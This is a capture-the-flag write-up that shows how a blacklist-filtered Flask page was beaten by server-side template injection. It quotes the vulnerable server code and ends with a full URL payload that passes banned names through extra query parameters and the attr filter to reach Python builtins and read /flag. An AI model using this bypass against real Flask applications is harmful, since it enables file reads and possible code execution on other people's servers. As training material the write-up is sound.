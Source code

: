 # almostnopship0

For this web challenge, we are given a link to a website that bears a striking resemblance to a certain DEF CON challenge. ~~pew pew~~  

![img](img/almost-1.png)

We are told the location of the flag and are provided the source code for the server, along with a nice text box where we can enter our team name. 

![img](img/almost-2.png)

Cool! Four P's are better than three. Now Let's take a look at that source code:

```python
from flask import Flask, render_template, request, send_file, render_template_string

app = Flask(__name__)

# scary names!!
blacklist1 = '_[]\'\"\\%'
blacklist2 = ['mro', 'config', 'base', 'join', 'os', 'subprocess']

@app.route('/')
def root():
    name = request.args.get('name')

    if name: 
        name = name.lower()
        if any([c in blacklist1 for c in name]) or any([b in name for b in blacklist2]):
            name = 'stop it :('

    index = render_template('index.html', name=name)
    return render_template_string(index)

@app.route('/src', methods=['GET'])
def src():
    return send_file('server.py')

# todo run NOPs
```

Interesting. We can see that some sort of blacklist has been implemented that prevents us from using certain character.  Let's tests that out and see if it works:

![img](img/almost-3.png)

Yep, so our team name wasn't able to go through, what a bummer.  
At this point I started to do some research on what I could possibly do to read the flag off of the server. I knew that it had to be a server side injecton, so I looked into that.  Eventually I came across what is know as a Flask SSTI, a type of server side template injection that Flask can be vulnerable to. I gave the input a simple template of `{{request.args}}` and voila.

![img](img/almost-4.png)

Now it's time to start crafting a payload.  We know that we can inject templates in the team name box, but those will all be checked against the blacklist. Maybe there is a way to add additional parameters that could then be read using `request.args`, that way the blacklisted items aren't actually part of `name`, but instead some other variable that we created.  Let's try it out:

`http://ctf-league.osusec.org:31311/?name={{request.args.param1}}&param1=%%Scary_Name%%` 

![img](img/almost-5.png)

And there it is. We now have a way to bypass the filter.  Now we just need to figure out how we are going to get the flag. After doing some more research, we were able to find that we could use `request.application` to access python's internal built-in functions. We eventually settled on this for what we wanted to be excecuted on the server:

`request.application.__globals__.get(__builtins__).open(/flag)`

To transform this into a usable payload, however, we had to set it up in such a way so that we could get around the blacklist. We were able to eventually come up with a method to transform any command into a usable payload:

```
a.b = request.args.a|attr(request.args.b)
a(b) = reqiest.args.a(request.args.b)
```

With this we can start to seperate out our command into sections:

```
request.application + __globals__
get() with paramater __builtins__
open() with paramerter __flag__
```

And putting the whole payload together:

`http://ctf-league.osusec.org:31311/?name={{(request.application|attr(request.args.param1)).get(request.args.param2).open(request.args.param3).read()}}&param1=__globals__&param2=__builtins__&param3=/flag`  

We get the flag!

![img](img/almost-flag.png)

`osu{but_mY_bLAcKL1st_W4S_so_g00d:(}` 
